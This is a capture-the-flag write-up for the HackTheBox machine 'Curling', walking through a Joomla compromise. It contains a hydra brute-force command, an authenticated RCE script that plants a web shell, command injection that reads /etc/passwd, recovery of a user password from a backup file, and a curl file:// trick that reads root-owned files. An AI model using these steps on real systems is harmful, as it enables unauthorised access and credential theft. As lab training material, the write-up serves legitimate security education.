










# Curling

[Curling](https://app.hackthebox.com/machines/160) is an easy level machine on HackTheBox. This machine is really interesting, especially the final privilege escalation part. This machine focuses heavily on enumeration but the actual exploitation and privilege escalation is pretty simple. 

## Enumeration

As usual, the first thing to do is just run a `nmap` scan against the machine's IP address.

```
$ sudo nmap -sS 10.129.3.181                
[sudo] password for kali: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-06-15 11:07 PDT
Nmap scan report for 10.129.3.181
Host is up (0.25s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 13.20 seconds
```

We can run another service enumeration scan for these two ports.

```
$ sudo nmap -sV -sC -p22,80 10.129.3.181
Starting Nmap 7.94 ( https://nmap.org ) at 2023-06-15 11:09 PDT
Nmap scan report for 10.129.3.181
Host is up (0.099s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8a:d1:69:b4:90:20:3e:a7:b6:54:01:eb:68:30:3a:ca (RSA)
|   256 9f:0b:c2:b2:0b:ad:8f:a1:4e:0b:f6:33:79:ef:fb:43 (ECDSA)
|_  256 c1:2a:35:44:30:0c:5b:56:6a:3f:a5:cc:64:66:d9:a9 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Home
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-generator: Joomla! - Open Source Content Management
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.38 seconds
```

From like port 80 is the way to go. So, we can check what is being hosted there.



It looks like the page is giving us a hint towards using the tool `cewl` to generate a list of passwords from this page. So, we can go ahead and give it a try:

```
$ cewl 10.129.3.181 > cewl.result
```

And we also need another list of usernames. By just going through the page quickly, we can see two potential usernames: super user and floris. So, we can create a list of different possible combinations of these two usernames

```
$ cat users     
superuser
floris
Floris
SuperUser
super_user
superUser
super.user
suser
root
```

Now, we can pass these two lists to `hydra` to brute-force the login. But before doing so, we need to find all the parameters that are being sent in the request. We can do this by capturing the request with burp.



Along with the username and password, there is another base64 encrypted string that is being sent. We can quickly determine what it is with Burp inspector



So, it is nothing but the URL itself. Based on these parameters, we can create our request for `hydra`

```
$ hydra -L users -P cewl.result 10.129.3.181 http-post-form "/index.php:username=^USER^&password=^PASS^&Submit=&option=com_users&task=user.login&return=aHR0cDovLzEwLjEyOS4zLjE4MS8%3D&1184ed2b591e541c62176cd7fb42282f=1:Warning"
```

But this did not work. So, we need to look for something else. We can get started with looking at the source code of the page.



At the very bottom of the source code, a file name is mention. So, we can try to access the same as `http://10.129.3.181/secret.txt`.



It looks like an encrypted string. So, we can thow it at [CyberChef's magic decoder](https://gchq.github.io/CyberChef/#recipe=Magic(3,false,false,'')).



And there we get the decrypted value. Using this with the usernames we had enumerated previously, we can try to login again.



So, the username `floris` worked for us but it shows `Super User`. 

Now that we have logged in, we need to find the admin page for this website. So, that we can exploit the service by uploading a reverse shell or look for some other vulnerability. To find the admin page, we can run `fuff` and check all the pages that it detects

```
$ ffuf -u http://10.129.3.181/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 

[Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 73ms]
    * FUZZ: bin

[Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 71ms]
    * FUZZ: plugins

[Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 71ms]
    * FUZZ: includes

[Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 4549ms]
    * FUZZ: images

[Status: 200, Size: 14249, Words: 762, Lines: 362, Duration: 4596ms]
    * FUZZ: #

[Status: 200, Size: 14249, Words: 762, Lines: 362, Duration: 4604ms]
    * FUZZ: #

[Status: 200, Size: 14249, Words: 762, Lines: 362, Duration: 4606ms]
    * FUZZ: 

[Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 105ms]
    * FUZZ: language

[Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 107ms]
    * FUZZ: components

[Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 84ms]
    * FUZZ: cache

[Status: 301, Size: 320, Words: 20, Lines: 10, Duration: 71ms]
    * FUZZ: libraries

[Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 73ms]
    * FUZZ: tmp

[Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 71ms]
    * FUZZ: layouts

[Status: 301, Size: 324, Words: 20, Lines: 10, Duration: 71ms]
    * FUZZ: administrator

[Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 71ms]
    * FUZZ: cli

```

From the result, it can be seen there is an `administrator` page which leads to a Joomla login page.



We can try the same credentials here and get access to the admin portal.



From the admin panel, we can see that this server is running `Joomla 3.8.8`. So, we can look for any exploitable vulnerabilities for this version.

## Gaining Foothold

With a couple of google searches, we can find a python script for [Joomla 3.8.8 authenticated RCE](https://github.com/cocomelonc/vulnexipy/blob/master/joomla388_rce.py). We can quickly copy this script and run it from our machine.

*If the script does not work for you and gives you error for `log_colors` modules then you can install that module with `pip install colorlog` and if that does not work for you then remove all the `LogColors.<COLOR>` terms from the script along with the import statement. You can find the cleaned script [here](./clean_rce.py)*

```
$ python3 exploit.py -h                                                                        
usage: exploit.py [-h] -u URL -U USERNAME -P PASSWORD -i IP -p PORT

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     target url
  -U USERNAME, --username USERNAME
                        auth username
  -P PASSWORD, --password PASSWORD
                        auth password
  -i IP, --ip IP        revshell listener ip
  -p PORT, --port PORT  revshell listener port
```

So, we need to pass it the URL, username, password, IP and port.

```
$ python3 exploit.py -u http://10.129.3.181 -U floris -P ************ -i 10.129.3.181 -p 80
victim: http://10.129.3.181...
login with credentials...
parse hidden inputs...
successfully login...
edit /jsstrings.php...
parse hidden inputs...
shell: http://10.129.3.181/templates/beez3/jsstrings.php?hacked=<cmd>
successfully get shell. hacked :)
```

Now, we can run any command from the provided URL. We can test this by printing `/etc/passwd`



So, the command injection does work. We can try to gain a reverse shell from here.

*I tried a number of payloads from revshells.com but none of them worked.*

At this point as we are not able to get a reverse shell, the best thing to do is utilize what we have. So, we can start our enumeration from this injection itself.

Some thing that we can look for are:

1. `whoami`

   - `www-data

2. `ls -la /home` (user directories)

   ```
   total 12 drwxr-xr-x 3 root root 4096 Aug 2 2022 . drwxr-xr-x 23 root root 4096 Aug 2 2022 .. drwxr-xr-x 6 floris floris 4096 Aug 2 2022 floris 
   ```

   So, there is a directory for `floris`. We can enumerate it,

3. `ls -la /home/floris`

   ```
   total 44 drwxr-xr-x 6 floris floris 4096 Aug 2 2022 . drwxr-xr-x 3 root root 4096 Aug 2 2022 .. lrwxrwxrwx 1 root root 9 May 22 2018 .bash_history -> /dev/null -rw-r--r-- 1 floris floris 220 Apr 4 2018 .bash_logout -rw-r--r-- 1 floris floris 3771 Apr 4 2018 .bashrc drwx------ 2 floris floris 4096 Aug 2 2022 .cache drwx------ 3 floris floris 4096 Aug 2 2022 .gnupg drwxrwxr-x 3 floris floris 4096 Aug 2 2022 .local -rw-r--r-- 1 floris floris 807 Apr 4 2018 .profile drwxr-x--- 2 root floris 4096 Aug 2 2022 admin-area -rw-r--r-- 1 floris floris 1076 May 22 2018 password_backup -rw-r----- 1 floris floris 33 Jun 15 17:47 user.txt 
   ```

   We can determine the following from the the above output:

   1. `admin-area`: This is a directory owned by `root` but we don't have access to this directory as `www-data`
   2. `password_backup`: Looks like we have read access to this file as `www-data`
   3. `user.txt`: Only `floris` can read this file

​		Based on the above, we can dive into `password_backup`

4. `cat /home/floris/password_backup`

   ```
   00000000: 425a 6839 3141 5926 5359 819b bb48 0000 BZh91AY&SY...H.. 00000010: 17ff fffc 41cf 05f9 5029 6176 61cc 3a34 ....A...P)ava.:4 00000020: 4edc cccc 6e11 5400 23ab 4025 f802 1960 N...n.T.#.@%...` 00000030: 2018 0ca0 0092 1c7a 8340 0000 0000 0000 ......z.@...... 00000040: 0680 6988 3468 6469 89a6 d439 ea68 c800 ..i.4hdi...9.h.. 00000050: 000f 51a0 0064 681a 069e a190 0000 0034 ..Q..dh........4 00000060: 6900 0781 3501 6e18 c2d7 8c98 874a 13a0 i...5.n......J.. 00000070: 0868 ae19 c02a b0c1 7d79 2ec2 3c7e 9d78 .h...*..}y..<~.x 00000080: f53e 0809 f073 5654 c27a 4886 dfa2 e931 .>...sVT.zH....1 00000090: c856 921b 1221 3385 6046 a2dd c173 0d22 .V...!3.`F...s." 000000a0: b996 6ed4 0cdb 8737 6a3a 58ea 6411 5290 ..n....7j:X.d.R. 000000b0: ad6b b12f 0813 8120 8205 a5f5 2970 c503 .k./... ....)p.. 000000c0: 37db ab3b e000 ef85 f439 a414 8850 1843 7..;.....9...P.C 000000d0: 8259 be50 0986 1e48 42d5 13ea 1c2a 098c .Y.P...HB....*.. 000000e0: 8a47 ab1d 20a7 5540 72ff 1772 4538 5090 .G.. .U@r..rE8P. 000000f0: 819b bb48 ...H 
   ```

This looks like some kind of hex data or maybe output from `xxd` command. So, the first thing we need to do here is to format this data

```
00000000: 425a 6839 3141 5926 5359 819b bb48 0000 BZh91AY&SY...H.. 
00000010: 17ff fffc 41cf 05f9 5029 6176 61cc 3a34 ....A...P)ava.:4 
00000020: 4edc cccc 6e11 5400 23ab 4025 f802 1960 N...n.T.#.@%...` 
00000030: 2018 0ca0 0092 1c7a 8340 0000 0000 0000 ......z.@...... 
00000040: 0680 6988 3468 6469 89a6 d439 ea68 c800 ..i.4hdi...9.h.. 
00000050: 000f 51a0 0064 681a 069e a190 0000 0034 ..Q..dh........4 
00000060: 6900 0781 3501 6e18 c2d7 8c98 874a 13a0 i...5.n......J.. 
00000070: 0868 ae19 c02a b0c1 7d79 2ec2 3c7e 9d78 .h...*..}y..<~.x 
00000080: f53e 0809 f073 5654 c27a 4886 dfa2 e931 .>...sVT.zH....1 
00000090: c856 921b 1221 3385 6046 a2dd c173 0d22 .V...!3.`F...s." 
000000a0: b996 6ed4 0cdb 8737 6a3a 58ea 6411 5290 ..n....7j:X.d.R. 
000000b0: ad6b b12f 0813 8120 8205 a5f5 2970 c503 .k./... ....)p.. 
000000c0: 37db ab3b e000 ef85 f439 a414 8850 1843 7..;.....9...P.C 
000000d0: 8259 be50 0986 1e48 42d5 13ea 1c2a 098c .Y.P...HB....*.. 
000000e0: 8a47 ab1d 20a7 5540 72ff 1772 4538 5090 .G.. .U@r..rE8P. 
000000f0: 819b bb48 ...H 
```

Now, we can save this to a file and then pass it to `xxd -r` to revert it.

```
$ xxd -r password_backup 
BZh91AY&SY���H���A��P)ava�:4N���nT#�@%�` 
"��n�                                    ��z�@�i�4hdi���9�h�Q�dh����4i�5n�׌��Jh��*��}y.�<~�x�>  �sVT�zH�ߢ�1�V��`F���s
     ۇ7j:X�dR��k�� ���)p�7۫;���9��PC�Y�P	�HB��*	��G� �U@r�rE8P����H  
```

Even after reverting the data, it does not makes sense. So, we can redirect the output to a new file and then run `file` on it to see if we find something meaningful.

```
$ xxd -r password_backup > password_backup.unhex
$ file password_backup.unhex 
password_backup.unhex: bzip2 compressed data, block size = 900k
```

So, this is a `bzip2` file which we can easily unzip

```
$ bzip2 -d password_backup.unhex 
bzip2: Can't guess original name for password_backup.unhex -- using password_backup.unhex.out
$ cat password_backup.unhex.out 
�l[password�r�BZh91AY&SY6Ǎ����@@!PtD�� t"d�hhOPIS@��6��8ET>P@�#I bՃ|3��x���������(*N�&�H��k1��x��"�{�ೱ��]��B@�6�m��
```

Again this looks weird so we can run file on the `password_backup.unhex.out` file to determine what it is.

```
$ file password_backup.unhex.out 
password_backup.unhex.out: gzip compressed data, was "password", last modified: Tue May 22 19:16:20 2018, from Unix, original size modulo 2^32 141
```

This looks like another `gzip` compressed file which can try to uncompress.

```
$ gunzip password_backup.unhex.out 
gzip: password_backup.unhex.out: unknown suffix -- ignored
```

`gunzip` does not uncompress it because it does not have the correct suffix. So, we need to add `.gz` at the end of the filename to uncompress it.

```
$ mv password_backup.unhex.out password_backup.unhex.out.gz
$ gunzip password_backup.unhex.out.gz
$ cat password_backup.unhex.out 
BZh91AY&SY6Ǎ����@@!PtD�� t"d�hhOPIS@��6��8ET>P@�#I bՃ|3��x���������(*N�&�H��k1��x��"�{�ೱ��]��B@�6 
$ file password_backup.unhex.out 
password_backup.unhex.out: bzip2 compressed data, block size = 900k
```

This looks like another `bzip2` file. So, we can try to uncompress this one as well.

```
$ bzip2 -d password_backup.unhex.out 
bzip2: Can't guess original name for password_backup.unhex.out -- using password_backup.unhex.out.out
$ file password_backup.unhex.out.out 
password_backup.unhex.out.out: POSIX tar archive (GNU)
```

And now this looks like a `tar` file, so we need to uncompress this as well.

```
$ tar -xvf password_backup.unhex.out.out 
password.txt
$ cat password.txt 
*******************
```

So, we've got a password and because this is compressed so many times, we can assume that this must be a pretty important password and probably the password that belongs to user `floris`.

We can try to SSH on to the target machine as `floris` with this password:

```
$ ssh floris@curling.htb
floris@curling.htb's password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-156-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Jun 18 02:43:08 UTC 2023

  System load:  0.02              Processes:            168
  Usage of /:   62.3% of 3.87GB   Users logged in:      0
  Memory usage: 19%               IP address for ens33: 10.129.196.11
  Swap usage:   0%


0 updates can be applied immediately.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


Last login: Wed Sep  8 11:42:07 2021 from 10.10.14.15
floris@curling:~$  whoami
floris
floris@curling:~$ pwd
/home/floris
```

And there we get a shell as `floris`, so we can go ahead and read the user flag.

## Privilege Escalation

The first thing that we can check for is the commands that our user can run with `sudo` privilege.

```
floris@curling:~$ sudo -l
[sudo] password for floris: 
Sorry, user floris may not run sudo on curling.
```

But it looks like we don't have access to any such commands. So, let's explore the files in the user directory that we can access.

```
floris@curling:~$ ls -la
total 44
drwxr-xr-x 6 floris floris 4096 Aug  2  2022 .
drwxr-xr-x 3 root   root   4096 Aug  2  2022 ..
drwxr-x--- 2 root   floris 4096 Aug  2  2022 admin-area
lrwxrwxrwx 1 root   root      9 May 22  2018 .bash_history -> /dev/null
-rw-r--r-- 1 floris floris  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 floris floris 3771 Apr  4  2018 .bashrc
drwx------ 2 floris floris 4096 Aug  2  2022 .cache
drwx------ 3 floris floris 4096 Aug  2  2022 .gnupg
drwxrwxr-x 3 floris floris 4096 Aug  2  2022 .local
-rw-r--r-- 1 floris floris 1076 May 22  2018 password_backup
-rw-r--r-- 1 floris floris  807 Apr  4  2018 .profile
-rw-r----- 1 floris floris   33 Jun 18 02:30 user.txt
floris@curling:~$ cd admin-area/
floris@curling:~/admin-area$ ls -la
total 28
drwxr-x--- 2 root   floris  4096 Aug  2  2022 .
drwxr-xr-x 6 floris floris  4096 Aug  2  2022 ..
-rw-rw---- 1 root   floris    25 Jun 18 02:47 input
-rw-rw---- 1 root   floris 14236 Jun 18 02:47 report
```

The `admin-area` directory looks interesting because it is owned by user `root` but because the owner group is `floris`, we can make changes to these files. 

So, we can try to analyze these files and see if we can use them for our benefit.

```
floris@curling:~/admin-area$ cat input 
url = "http://127.0.0.1"
floris@curling:~/admin-area$ cat report 
<!DOCTYPE html>
<html lang="en-gb" dir="ltr">
<head>
	<meta name="viewport" content="width=device-width, initial-scale=1.0" />
	<meta charset="utf-8" />
	<base href="http://127.0.0.1/" />
	<meta name="description" content="best curling site on the planet!" />
	<meta name="generator" content="Joomla! - Open Source Content Management" />
	<title>Home</title>
	<link href="/index.php?format=feed&amp;type=rss" rel="alternate" type="application/rss+xml" title="RSS 2.0" />
	<link href="/index.php?format=feed&amp;type=atom" rel="alternate" type="application/atom+xml" title="Atom 1.0" />
	<link href="/templates/protostar/favicon.ico" rel="shortcut icon" type="image/vnd.microsoft.icon" />
	<link href="/templates/protostar/css/template.css?b6bf078482bc6a711b54fa9e74e19603" rel="stylesheet" />
	<link href="https://fonts.googleapis.com/css?family=Open+Sans" rel="stylesheet" />
	<style>

	h1, h2, h3, h4, h5, h6, .site-title {
		font-family: 'Open Sans', sans-serif;
	}
	</style>
...
...
...
```

It looks like whatever is being hosted at the address present in the `input` is being pulled and stored in the `report` file. Considering that there are limited tools on this machine and `curl` is one of them, we can assume that there is a `curl` process running in the background that must be doing this. Also, as the user who owns this file is `root`, we might be able to access the `/root` directory. So, we can try to figure out a way by which we can access the root flag through `curl`. 

Based on [this](https://security.stackexchange.com/questions/196842/is-it-possible-to-execute-a-local-file-or-code-from-curl) article, we can mention a file path as `file://<path>` and then `curl` can pull it.

So, we can replace the url in the `input` file with `file:///root/root.txt` and see if it pulls the flag.

```
floris@curling:~/admin-area$ cat input 
url = "file:///root/root.txt"
floris@curling:~/admin-area$ cat report 
<root flag>
```

And there we get the root flag!

## Key Points to Take Away

1. Always look for comments in web pages.
2. If you know if a service is running, then look for any exploits for it and if they don't work then try to fix them.
3. If you find files with odd permissions, then try to exploit them.

## References

1. [Curling](https://app.hackthebox.com/machines/160)
2. [Joomla 3.8.8 authenticated RCE](https://github.com/cocomelonc/vulnexipy/blob/master/joomla388_rce.py)
3. [Stack Overflow: Execute local file from curl](https://security.stackexchange.com/questions/196842/is-it-possible-to-execute-a-local-file-or-code-from-curl)
